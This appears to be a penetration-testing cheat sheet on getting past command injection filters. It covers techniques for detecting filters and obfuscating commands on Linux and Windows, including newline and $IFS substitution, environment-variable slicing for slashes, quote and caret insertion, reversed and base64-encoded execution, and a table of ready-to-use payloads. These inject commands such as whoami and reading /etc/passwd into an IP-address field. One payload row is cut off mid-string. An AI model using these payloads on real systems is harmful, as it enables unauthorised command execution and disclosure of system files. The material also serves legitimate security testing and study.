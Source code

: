 # Identifying Filters

## <mark style="color:red;">🛡️ Command Injection Bypass Techniques Cheat Sheet 🛡️</mark>

### <mark style="color:blue;">🔍 1. Detecting Filters</mark>

#### <mark style="color:green;">🚫 Filter Types</mark>

* **Character Blacklists**: Blocks specific characters (`;`, `&`, `|`, spaces, etc.)
* **Command Blacklists**: Blocks specific commands (`whoami`, `cat`, etc.)
* **WAF Detection**: Security mechanisms that deny suspicious requests

#### <mark style="color:green;">🧪 Testing for Filters</mark>

* 🔄 Try one character at a time to identify which ones are blocked
* 🔄 Test basic injection operators: `;`, `&&`, `||`, `|`, etc.
* 🔄 Check if spaces are filtered
* 🔄 Test common commands to identify command blacklists

***

### <mark style="color:blue;">🔀 2. Bypassing Injection Operator Filters</mark>

<table data-full-width="true"><thead><tr><th>🚫 Blocked</th><th>✅ Alternative</th><th>💻 Example</th></tr></thead><tbody><tr><td><code>;</code></td><td>Newline (<code>%0a</code>)</td><td><code>127.0.0.1%0awhoami</code></td></tr><tr><td><code>&#x26;&#x26;</code></td><td><code>%0a</code> (newline)</td><td><code>127.0.0.1%0awhoami</code></td></tr><tr><td><code>;</code></td><td>Environment variable</td><td><code>127.0.0.1${LS_COLORS:10:1}whoami</code></td></tr></tbody></table>

***

### <mark style="color:blue;">⌨️ 3. Bypassing Space Filters</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>📝 Syntax</th><th>💻 Example</th></tr></thead><tbody><tr><td>Tab character</td><td><code>%09</code></td><td><code>127.0.0.1%0a%09whoami</code></td></tr><tr><td><code>$IFS</code> variable</td><td><code>${IFS}</code></td><td><code>127.0.0.1%0awhoami${IFS}-a</code></td></tr><tr><td>Brace expansion</td><td><code>{command,arg}</code></td><td><code>127.0.0.1%0a{ls,-la}</code></td></tr></tbody></table>

***

### <mark style="color:blue;">🔣 4. Bypassing Slash/Character Filters</mark>

#### <mark style="color:green;">🐧 Linux Methods</mark>

<table data-full-width="true"><thead><tr><th>🔤 Character</th><th>🔄 Alternative Method</th><th>💻 Example</th></tr></thead><tbody><tr><td><code>/</code></td><td><code>${PATH:0:1}</code></td><td><code>cat${IFS}${PATH:0:1}etc${PATH:0:1}passwd</code></td></tr><tr><td><code>/</code></td><td><code>${HOME:0:1}</code></td><td><code>cat${IFS}${HOME:0:1}etc${HOME:0:1}passwd</code></td></tr><tr><td><code>;</code></td><td><code>${LS_COLORS:10:1}</code></td><td><code>127.0.0.1${LS_COLORS:10:1}${IFS}whoami</code></td></tr></tbody></table>

#### <mark style="color:green;">🪟 Windows Methods</mark>

<table data-full-width="true"><thead><tr><th>🔤 Character</th><th>🔄 Alternative Method</th><th>💻 Example</th></tr></thead><tbody><tr><td><code>\</code></td><td><code>%HOMEPATH:~6,-11%</code></td><td><code>type%HOMEPATH:~6,-11%Windows%HOMEPATH:~6,-11%win.ini</code></td></tr><tr><td><code>\</code></td><td><code>$env:HOMEPATH[0]</code></td><td>PowerShell: <code>type$env:HOMEPATH[0]Windows$env:HOMEPATH[0]win.ini</code></td></tr></tbody></table>

#### <mark style="color:green;">🔄 Character Shifting</mark>

* 🐧 Linux: `$(tr '!-}' '"-~'<<<[)` produces `\`
* 🔍 Find ASCII character before your target and shift it

***

### <mark style="color:blue;">🎭 5. Bypassing Command Blacklists</mark>

#### <mark style="color:green;">🔡 Command Obfuscation - Works on Linux & Windows</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>💻 Example</th><th>📝 Notes</th></tr></thead><tbody><tr><td>Single quotes</td><td><code>w'h'o'am'i</code></td><td>Must have even number of quotes</td></tr><tr><td>Double quotes</td><td><code>w"h"o"am"i</code></td><td>Must have even number of quotes</td></tr></tbody></table>

#### <mark style="color:green;">🐧 Linux-Only Obfuscation</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>💻 Example</th><th>📝 Notes</th></tr></thead><tbody><tr><td>Backslash</td><td><code>w\ho\am\i</code></td><td>Insert <code>\</code> anywhere in command</td></tr><tr><td>Positional parameter</td><td><code>who$@ami</code></td><td>Insert <code>$@</code> anywhere in command</td></tr></tbody></table>

#### <mark style="color:green;">🪟 Windows-Only Obfuscation</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>💻 Example</th><th>📝 Notes</th></tr></thead><tbody><tr><td>Caret</td><td><code>who^ami</code></td><td>Insert <code>^</code> anywhere in command</td></tr></tbody></table>

***

### <mark style="color:blue;">🧙‍♂️ 6. Advanced Obfuscation Techniques</mark>

#### <mark style="color:green;">🔠 Case Manipulation</mark>

* **🪟 Windows**: Case insensitive - `WhOaMi` works directly
* **🐧 Linux**: Case sensitive - use transformation:
  * `$(tr "[A-Z]" "[a-z]" <<<"WhOaMi")`
  * `$(a="WhOaMi"; printf %s "${a,,}")`

#### <mark style="color:green;">🔄 Reversed Commands</mark>

* **🐧 Linux**:
  * Generate: `echo 'whoami' | rev` → `imaohw`
  * Execute: `$(rev <<< 'imaohw')`
* **🪟 Windows PowerShell**:
  * Generate: `"whoami"[-1..-20] -join ''`
  * Execute: `iex "$('imaohw'[-1..-20] -join '')"`

#### <mark style="color:green;">🔐 Encoded Commands</mark>

* **🐧 Linux Base64**:
  * Encode: `echo -n 'cat /etc/passwd' | base64` → `Y2F0IC9ldGMvcGFzc3dk`
  * Execute: `$(echo Y2F0IC9ldGMvcGFzc3dk | base64 -d)`
  * Alternative: `bash <<< $(base64 -d <<< Y2F0IC9ldGMvcGFzc3dk)`
* <mark style="color:green;">**🪟 Windows PowerShell**</mark><mark style="color:green;">:</mark>
  * Encode: `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`
  * Execute: `powershell -e dwBoAG8AYQBtAGkA`
  * Alternative: `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

***

### <mark style="color:blue;">💻 8. Common Payloads Examples</mark>

<table data-full-width="true"><thead><tr><th width="496">🎯 Scenario</th><th>🔧 Payload Example</th></tr></thead><tbody><tr><td>Basic space bypass</td><td><code>127.0.0.1%0awhoami${IFS}</code></td></tr><tr><td>Multiple bypasses</td><td><code>127.0.0.1%0aw'h'o'a'm'i${IFS}</code></td></tr><tr><td>Full path bypass</td><td><code>127.0.0.1%0ac'a't'${IFS}${PATH:0:1}e'tc'${PATH:0:1}p'a's's'w'd'</code></td></tr><tr><td>Windows cmd bypass</td><td><code>127.0.0.1%0aw^ho^am^i</code></td></tr><tr><td>Encoded payload</td><td>`127.0.0.1%0a$(echo Y2F0IC9ldGMvcGFzc3dk</td></tr></tbody></table>

***

### <mark style="color:blue;">🚨 9. Quick Reference by OS</mark>

#### <mark style="color:green;">🐧 Linux-Specific Techniques</mark>

* Environment variables: `${IFS}`, `${PATH:0:1}`
* Bash expansion: `{ls,-la}`
* Command substitution: `$(command)`
* Character transformation: `$(tr "[A-Z]" "[a-z]" <<<"WhOaMi")`

#### <mark style="color:green;">🪟 Windows-Specific Techniques</mark>

* Caret insertion: `w^ho^am^i`
* Environment variables: `%HOMEPATH:~6,-11%`
* PowerShell array indexing: `$env:HOMEPATH[0]`
* PowerShell encoding: `powershell -e BASE64STRING`
